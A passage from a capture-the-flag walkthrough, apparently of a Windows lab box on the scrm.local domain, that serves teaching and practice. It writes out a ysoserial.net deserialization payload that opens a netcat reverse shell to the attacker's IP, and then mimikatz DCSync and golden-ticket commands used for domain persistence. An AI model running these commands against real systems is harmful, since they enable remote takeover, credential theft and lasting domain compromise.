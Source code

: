 -   **Well that doesn't work either, so suppose we need to troubleshoot and fix this**:
    -   `.\yoserial.exe -f BinaryFormatter -q WindowsPrincipal -o base64 -c "<CommandToRun>"`
    -   {{< figure src="/ox-hugo/2024-10-08-202001_.png" >}}

-   **After some digging I found that** `1.35` **works fine where as** `1.36` **has other deps**:
    -   ~~Important Note~~: Use Release `1.35` ~~not~~ `1.36`

-   **I generate my payload using** `yoserial.net v1.35`:
    -   `ysoserial-1.35\Release> .\ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "C:\Temp\nc.exe 10.10.14.31 443 -e cmd"`
    -   {{< figure src="/ox-hugo/2024-10-08-202629_.png" >}}

-   **Use the same syntax the program uses to upload it**:
    -   `UPLOAD_ORDER;<base64string>`
    -   {{< figure src="/ox-hugo/2024-10-08-205350_.png" >}}
    -   We can see it errors out, but that's fine.

-   **Catch my system shell**:
    -   {{< figure src="/ox-hugo/2024-10-08-202708_.png" >}}

-   **Get root flag**:
    -   {{< figure src="/ox-hugo/2024-10-08-202751_.png" >}}


## 7. Persistence: {#7-dot-persistence}


### Creating A Golden Ticket with `mimikatz`: {#creating-a-golden-ticket-with-mimikatz}

-   **I upload mimikatz via my python webserver**:

-   **I perform a dcsync attack and dump the** `krbtgt` **hash**:
    -   `lsadump::dcsync /user:krbtgt /domain:scrm.local`
    -   {{< figure src="/ox-hugo/2024-10-08-203752_.png" >}}



-   **I forge a golden ticket using the** `Domain-SID` **&amp;** `krbtgt` **hash**:
    -   `kerberos::golden /domain:scrm.local /user:Administrator /sid:S-1-5-21-2743207045-1827831105-2542523200 /rc4:<HASH>`
        -   {{< figure src="/ox-hugo/2024-10-08-203858_.png" >}}
        -   The ticket is is present:
        -   {{< figure src="/ox-hugo/2024-10-08-203935_.png" >}}


### Transferring the Golden Ticket Using my custom python webserver: {#transferring-the-golden-ticket-using-my-custom-python-webserver}

1.  **Start my custom python webserver**:
    -   I have this handy python webserver that is useful when exfiling data.
        -   Save as `pythonServer.py`
        -   Rung `python3 pythonServer.py`
            ```python
             from http.server import SimpleHTTPRequestHandler, HTTPServer
